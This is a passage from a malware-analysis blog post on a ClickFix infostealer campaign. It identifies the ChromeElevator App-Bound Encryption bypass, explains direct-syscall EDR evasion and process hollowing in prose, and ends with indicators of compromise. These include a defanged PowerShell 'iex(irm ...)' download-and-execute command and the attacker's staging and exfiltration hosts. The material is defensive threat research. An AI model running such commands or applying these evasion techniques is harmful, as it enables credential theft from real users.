Whereas Stage 3 and Stage 4 appear to have been built with a non-Microsoft toolchain and wrapped with Donut, ChromeElevator was built with Microsoft Visual C++ in Visual Studio 2022. The toolchain mismatch suggests the attacker did not write this themselves and was instead reusing a tool built somewhere else.
I pulled the binary into Detect It Easy and looked at its strings. The ASCII art at the top of the dump named the tool outright: a ChromeElevator banner, the subtitle "Direct Syscall-Based Reflective Hollowing", a version line reading v0.18.0 by @xaitax, and the full usage text the binary prints on launch. The author handle was the lead I needed.

chromelevator.bin, showing the ASCII banner, the Direct Syscall-Based Reflective Hollowing subtitle, and the v0.18.0 @xaitax version line. The author handle and tool name fell out of static strings, no execution required.
The handle @xaitax leads directly to a public GitHub profile belonging to Alexander Hagenah, a security researcher who publishes a number of Windows security and offensive-research tools. His repository Chrome-App-Bound-Encryption-Decryption matches the binary's filename, behaviour, and banner exactly. The tool is a published proof-of-concept for defeating Google's App-Bound Encryption mechanism, intended for defensive research and credential-recovery work.

Chrome-App-Bound-Encryption-Decryption repository, whose banner and version string match the strings recovered from chromelevator.bin. The documented run against two profiles harvests 1,312 cookies, 792 passwords, 1 card, 1 IBAN, and 2 authentication tokens.
Attackers regularly recompile open-source security research tools and drop them into their campaigns. It saves them the engineering effort of building their own reflective loaders and bypass code, and it puts them on the same footing as the defenders studying the same techniques. The fact that this campaign reaches for Chrome-App-Bound-Encryption-Decryption suggests the operator understood the specific gap that App-Bound Encryption created for traditional infostealers, and went looking for the published fix.
This is the piece that makes the whole campaign work against modern Chrome. Stage 4, sitting inside svchost, has no problem copying Chrome's cookie and credential databases off disk. The databases themselves are encrypted, though, and the keys that decrypt them are tied to Chrome's own process identity by a feature called App-Bound Encryption. Anything that is not Chrome gets refused. ChromeElevator's answer to that is to be Chrome, in the way that matters to the operating system.
The technique the banner names is direct syscall-based reflective hollowing. Two ideas, and both of them matter.
Direct syscalls is the EDR-evasion half. When normal Windows code talks to the kernel, it goes through ntdll.dll, the standard library Windows provides for the job. Most EDR tools install their detection hooks inside ntdll, watching every call that passes through for suspicious patterns like a thread being injected into another process. Direct syscalls skip ntdll entirely. The tool calls the kernel by its raw syscall numbers, the same way ntdll itself does. The EDR's hook sees nothing, because the call never crossed it.
Reflective hollowing is the impersonation half. The tool launches a fresh chrome.exe in a suspended state, rewrites the new process's memory with attacker code, then lets it run. From the operating system's point of view, the process on the system is genuine Chrome by every observable check: name, path, parent process, code signature on disk. From the attacker's point of view, Chrome is now executing the attacker's payload, and the operating system is treating every API call the payload makes as Chrome's own.
Put the two together and App-Bound Encryption is no longer a barrier. The decryption code, running inside the hollowed Chrome, can ask the operating system for the runtime keys, and the operating system answers, because as far as it can tell the asker really is Chrome. The cookie and credential databases that Stage 4 copied off disk become readable.
The %s\chromelevator output path constant visible in Stage 4's strings (Figure 8) is the join: Stage 4 references ChromeElevator's output directory via a templated path, which lines the decrypted material up with the same exfiltration channel Stage 4 already uses for everything else it collects.
Conclusion
Most of the techniques in this chain have been documented for years. Donut-wrapped loaders, svchost injection, AES-256 with a hardcoded key, and a published research tool dropped into an attacker's toolkit are all familiar pieces. The delivery is what makes the campaign work.
There was no file, no attachment, and no exploit. The user was the delivery mechanism, and every file-centric, email-centric, and vulnerability-centric control in a typical security stack saw nothing. The only control that fired was the one watching what powershell.exe did the moment it spawned from explorer.exe. If that control wasn't there, the next signal in the chain would have been an exfiltration alert from a network sensor, days later, by which point the credentials, the wallets, and the session cookies would already be sold.
ClickFix-shaped social engineering is going to keep working until users stop being asked to paste verification commands. That isn't a battle defenders are going to win at the user-training tier. The detections that matter are the ones that fire on the shape of the execution, not on the file that delivered it.
Indicators of compromise
Network indicators
| Item | Description |
|---|---|
158[.]94[.]209[.]33 | Stage 1 staging server. Returned stage1.txt as plain text via HTTP GET. No User-Agent filtering. |
178[.]16[.]53[.]70 | Stage 2 host. Returned stage2.txt as plain text via HTTP GET. No User-Agent filtering. |
178[.]16[.]52[.]201 | Stage 3 + 4 binary payload host. Apache/2.4.18 (Ubuntu) on Port 80. Directory /9cca20c6df659f72/ indexed once User-Agent was overridden to a PowerShell value. |
158[.]94[.]210[.]166 | Stage 4 exfiltration endpoint. Raw TCP, AES-256-encrypted payload. |
sctlogin[.]click | MSI custom-action call-out for reinfection loop. Path /captcha.php. Domain no longer resolves at time of analysis. Registered approximately one month before campaign launch. VT 7/94, tagged "Spam". Known subdomains: www.sctlogin[.]click, banking.sctlogin[.]click. |
File system artifacts
| Item | Description |
|---|---|
C:\Users\[REDACTED]\AppData\Local\Temp\~vrf<GetTickCount>.msi | Stage 4 silent-installed MSI. Observed instance: ~vrf262689062.msi. The numeric portion is GetTickCount() output, unique per execution. |
HKU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU | Run-dialog history entry for the initial command. Value name a, data powershell -c iex(irm 158[.]94[.]209[.]33 -UseBasicParsing)\1. |
Process indicators
| Item | Description |
|---|---|
winlogon.exe → userinit.exe → Explorer.EXE → PowerShell.exe | Initial process tree. powershell.exe parented to explorer.exe indicates a user-typed command from the Run dialog. |
services.exe → svchost.exe → msiexec.exe (parent chain at 11:41:58 UTC) | Stage 4 inside injected svchost calling CreateProcess on msiexec, eleven seconds after initial PowerShell. |
Add-Type -TypeDefinition (PowerShell script content) | Stage 2 inline C# compilation. Importing VirtualAlloc, CreateThread, WaitForSingleObject from kernel32. |
← back to blog · home